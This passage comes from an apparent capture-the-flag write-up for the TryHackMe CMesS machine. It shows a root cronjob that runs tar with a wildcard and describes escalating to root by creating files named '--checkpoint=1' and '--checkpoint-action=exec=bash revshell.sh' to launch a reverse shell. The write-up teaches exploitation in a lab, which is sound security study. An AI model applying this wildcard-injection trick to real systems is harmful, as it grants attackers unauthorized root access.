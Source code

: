 By doing manual enumeration, I found that there is one cronjob is running every two minutes.

```bash
andre@cmess:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

We can gain a root privilege is because that cronjob is **running as root**, and using a wildcard to `tar` all the files in `/home/andre/backup`.

According to GTFObins, we can create files that will be interpreted as options for the `tar` command, to ultimately execute something like a reverse shell.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a15.png)

To do so, we can write a bash reverse shell, and create two files: `--checkpoint=1` and `--checkpoint-action=exec=bash revshell.sh`. Then wait the cronjob runs.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a16.png)

